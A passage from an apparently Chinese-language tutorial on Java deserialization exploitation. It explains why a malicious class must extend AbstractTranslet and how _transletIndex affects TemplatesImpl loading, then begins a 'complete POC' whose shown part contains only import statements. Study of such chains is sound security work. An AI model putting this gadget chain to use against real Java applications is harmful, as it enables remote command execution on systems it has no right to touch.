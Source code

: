 ```java
    }
}
```

但是这里为什么要设置恶意类的父类为 AbstractTranslet 呢？

因为在 defineTransletClasses 这个方法中存在一个判断：

![1](./img/349.png)

我们需要令`_transletIndex`为 i ，此时的 i 为0，默认状态下`_transletIndex`的值为 -1 ，而如果`_transletIndex`的值小于0，就会抛出异常：

![1](./img/350.png)

这里我们也不能通过反射的方式来设置`_transletIndex`的值，因为还是会进入到`_auxClasses`方法中，此方法会报出错误，我们依旧无法正常的序列化。

![1](./img/351.png)

此时已经可以成功执行命令了，接下来就是需要找到一个点调用了 newTransformer 这个方法。

利用链 1 可以执行到 transform 方法了，那么我们可以通过 InvokerTransformer#transform 的反射来调 TemplatesImpl#newtransformer，达到命令执行的目的。

完整POC：

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationTargetException;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
```